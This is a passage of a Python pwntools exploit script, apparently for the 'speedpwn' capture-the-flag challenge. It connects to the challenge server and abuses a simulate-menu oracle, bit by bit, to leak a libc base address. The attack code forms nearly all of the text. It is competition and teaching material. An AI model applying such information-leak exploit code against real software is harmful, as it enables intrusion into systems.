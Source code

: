 ```python
        pause()
else:
    p = remote("speedpwn.chals.sekai.team", 1337, ssl=True)

def fight(win: bool):
    p.sendlineafter(b"> ", b"f")
    if win:
        p.sendline(b"-1")
    else:
        p.sendline(b"0")

def simulate(player_num: int):
    p.sendlineafter(b"> ", b"s")
    p.sendlineafter(b"Bot number: ", b"-")
    p.sendlineafter(b"Player number: ", str(player_num).encode())
    result = p.recvline()
    if b"Bot" in result:
        return True
    else:
        return False

# good luck pwning :)

# leak libc
# 1. search for number of bits
num_bits = 0
x = int("0", 2)
while simulate(x) == True:
    num_bits += 1
    x = int("1" * num_bits, 2)

print(num_bits)

# 2. construct the "abacus" row
guess = ["0"] * (64 - num_bits) + ["1"] * num_bits
known_bits = 0

while known_bits < num_bits:
    print("\r" + "".join(guess), end="")
    result = simulate(int("".join(guess), 2)) # should return False

    start_idx = "".join(guess).find("1")
    end_idx = start_idx + num_bits - known_bits - 1

    for bit in range(end_idx, start_idx - 1, -1):
        guess.pop(bit)
    for bit in range(end_idx - start_idx + 1):
        guess.insert(0, "1")

    print("\r" + "".join(guess), end="")

    end_of_block = "".join(guess).find("0") - 1
    while simulate(int("".join(guess), 2)) == True:
        guess.pop(end_of_block + 1)
        guess.insert(0, "0")
        end_of_block += 1
        print("\r" + "".join(guess), end="")

    known_bits += 1
    print("\r" + "".join(guess), end="")

libc_base = int("".join(guess), 2) - 0x955c2
print(hex(libc_base))
```